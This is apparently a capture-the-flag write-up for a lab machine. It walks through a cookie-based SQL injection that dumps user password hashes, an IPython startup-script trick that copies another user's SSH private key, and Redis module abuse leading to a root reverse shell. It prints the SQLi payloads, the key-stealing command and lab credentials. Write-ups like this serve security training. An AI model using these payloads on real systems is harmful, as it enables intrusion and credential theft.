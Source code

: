 # Enumeration 

## *Open Ports:*

80/tcp http 
443/tcp https ssl/http syn-ack ttl 63 nginx 1.18.0
22/tcp ssh
![[Pasted image 20221112123124.png]]

- running gobuster we found nothing 
## *Http(s) enum*
- found a CVE for the current prestashop version but looks like it's a rabbit hole and didn't work so maybe the server is patched


- trying to add a item to wish list found login page and made an account
![[Pasted image 20221112153215.png]]

- trying to buy an item sent me to checkout.shared.htb subdomain after adding it to /etc/hosts files
- tried to look for more subdomains with gobuster but got nothing 
![[Pasted image 20221112124436.png]]


# *Exploitation* 

- trying to type stuff in the credit card and CVV but always gets pop up and nothing shows on burp 
- going back to the main page found new value added to cookies
![[Pasted image 20221112153354.png]]
-  found that SQLI in custom cart parameter and we can use that to dump the database 
![[Pasted image 20221112153940.png]]



- dumping database 


```
{"53GG2EF8' AND 1=2 UNION SELECT 1,group_concat(table_name),3 from information_schema.tables-- a":"1"}; 
```


![[Pasted image 20221112155023.png]]

- dumping columns 
```
"53GG2EF8' AND 1=2 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name= 'user'-- a":"1"};
```

![[Pasted image 20221112155640.png]]

- dumping user 

```
{"53GG2EF8' AND 1=2 UNION SELECT 1,group_concat(id,username,0x3a,0x3a,password),3 FROM user-- a":"1"};
```



![[Pasted image 20221112160229.png]]
- hashed password:fc895d4eddc2fc12f995e18c865cf273
- https://hashes.com/en/tools/hash_identifier
![[Pasted image 20221112160937.png]]
















# *Foothold* 

- james_mason:Soleil101

- we are in as user james_mason
![[Pasted image 20221112161018.png]]
found database creds in website directory /var/www/checkout.shared.htb/config 
![[Pasted image 20221112164236.png]]
-  didn't really find anything in the database so back to enumerating 


- using pspy and linpeas found that Ipython runs on the machine
![[Pasted image 20221112165248.png]]
- trying to find ways to priv esc on google using ipython
- found a github repo talking about ipython and how it can lead to priv esc
- https://github.com/advisories/GHSA-pq7m-3gw7-gq5x
- adding the commands to /opt/scripts_review/

```
mkdir -m 777 /opt/scripts_review/profile_default/
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo "import os;os.system('cat ~/.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/poc.py
```

- copying the key to our machine 
```
nano key 
chmod 600 key
ssh -i key dan_smith@10.129.30.186 
```
![[Pasted image 20221112171820.png]]


## *Privesc to root*

- and we are in as the user dan smith 

![[Pasted image 20221112173221.png]]
#userflag 0abbf99d92265845c2d050932c2fc14f

- running linpeas again

- this file might be interesting cos it's owned by root and readable by our group
![[Pasted image 20221112173744.png]]
![[Pasted image 20221112173749.png]]

- it's a binary file so let's try to upload it on our machine and see what it does 
![[Pasted image 20221112174027.png]]

![[Pasted image 20221112174106.png]]

- looks like it's trying to connect to port 6379 
- trying to open a listener on port 6379 and here is the result
![[Pasted image 20221112174155.png]]
- looks like password so all we need to do now is to try to find username 

- after some time trying username/passwords we tried to search for default redis creds
- https://redis.io/commands/auth/
- found that if there is only password specified then the username is default
![[Pasted image 20221112174827.png]]
- :F2WHqJUz2WEz=Gqq
![[Pasted image 20221112175157.png]]
- we are in redis
- using https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
- to try to leverage this 

- found a GitHub repo for redis exploit
- https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

![[Pasted image 20221112180600.png]]

- and we are root and now we execute a reverse shell

![[Pasted image 20221112180856.png]]
#rootflag b82775a9f3da5b19d70417a2a8eb77b1


| Service | Username | password |
| ------- | -------- | -------- |
| Prestashop|james_mason|Soleil101 |
| ssh|dan_smith|(ssh_key from ipython) |
